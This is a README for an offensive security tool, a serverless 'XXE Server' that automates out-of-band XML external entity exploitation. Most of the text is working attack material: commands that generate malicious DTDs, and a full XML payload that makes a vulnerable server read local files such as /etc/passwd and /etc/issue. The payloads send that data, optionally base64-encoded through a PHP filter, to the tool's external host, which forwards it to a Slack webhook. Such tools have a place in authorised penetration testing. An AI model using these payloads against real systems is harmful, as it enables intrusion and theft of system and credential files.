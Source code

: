 # XXE Server
This example is based off a similar project I wrote a while ago, [xxetimes](https://github.com/ropnop/xxetimes). After discovering an OOB XXE vulnerability, exploitation is usually a very manual process that includes spinning up at least one listening server, customizing DTD files and parsing data dump output.

This serverless function provides two main functionalities to help:

 * Template generation and serving up of DTD files
 * Parsing encoded data in GET params and posting to Slack

The server will dynamically generate DTD files for HTTP data exfiltration using parameter expansion when the `/dtd` endpoint is hit. It accepts a `filename` parameter to create the file entity. It also supports PHP Base64 encoding when the `php` parameter is sent. The parameter expansion will send data to the same server at the `/data` endpoint.

The `/data` endpoint simply decodes any incoming data as part of the URL query and dumps it to a Slack webhook.

The function requires the `SLACK_WEBHOOK` environment variable

## Deployment
Since it is possible to view public `now.sh` deployment source code and environment variables, it is advisable to keep your Slack WEBHOOK_URL in a [now.sh secret](https://zeit.co/docs/v1/features/env-and-secrets)

```
$ now secret add slack-webhook-xxe https://hooks.slack.com/services/YOUR_WEBHOOK_HERE
```

And deploy with the environment variable:

```
$ now -e SLACK_WEBHOOK=@slack-webhook-xxe --public
```

## Usage
The `/dtd` endpoint is used to generate DTDs with parameter expansion. The two optional paramaters are `filename` and `php`. It's easiest to view the differences:

No params:
```
$ curl https://xxeserver-riigdrbgdd.now.sh/dtd
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

Filename specified:
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd"
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

PHP specified (will use base64 encoding)
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd&php=true"
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data64?%file;'>">
%all;
%send;
```

When explointing an XXE vulnerability, the XML sent to the server will therefore look something like this:
```
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/issue&php=true">
%dtd;
]>
<foobar>
<hello>world</hello>
</foobar>
```

When submitted, the contents of `/etc/issue` are dumped to Slack:
![xxe_data](../imgs/xxeserver_data.png)



